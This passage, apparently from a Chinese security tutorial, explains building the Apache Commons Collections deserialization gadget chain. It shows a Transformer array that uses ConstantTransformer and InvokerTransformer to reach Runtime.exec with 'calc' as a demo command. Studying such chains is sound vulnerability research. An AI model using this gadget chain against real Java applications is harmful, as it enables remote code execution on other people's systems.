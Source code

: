 这里调用的 setValue 参数并不是我们想要的那个参数，所以传到的 checkSetValue 方法的参数 value 变成了这样的

[![](assets/1700127979-2f0ea4141f70e4ca56bc6290ad35dad2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155034-d2a148ca-8454-1.png)

我们必须解决这个问题。解决方法如下

我们可以利用 ConstantTransformer 类

[![](assets/1700127979-f8571c910d2ef707b081d391c59ee416.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155037-d4e6c4fc-8454-1.png)

这个类就比较方便，不论我们输出什么，他都会返回我们的的输出。这样的们就可以用这个类的 transform

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),//添加这段
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
```
